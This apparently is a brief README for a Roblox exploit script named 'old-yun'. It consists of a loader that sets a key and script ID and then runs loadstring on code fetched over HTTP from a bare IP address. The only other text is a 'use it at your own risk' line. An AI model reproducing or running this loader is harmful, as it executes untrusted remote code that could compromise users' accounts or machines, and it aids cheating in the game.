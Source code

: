 # old-yun
use it at your own risk :)
getgenv().key = "ZrfV0A9oK8k8Bx"
getgenv().scriptID = "v5qUS6uaZk1holSXazPJ"
 
loadstring(game:HttpGet(("http://135.125.132.19:8080/script/%s"):format(scriptID)))()
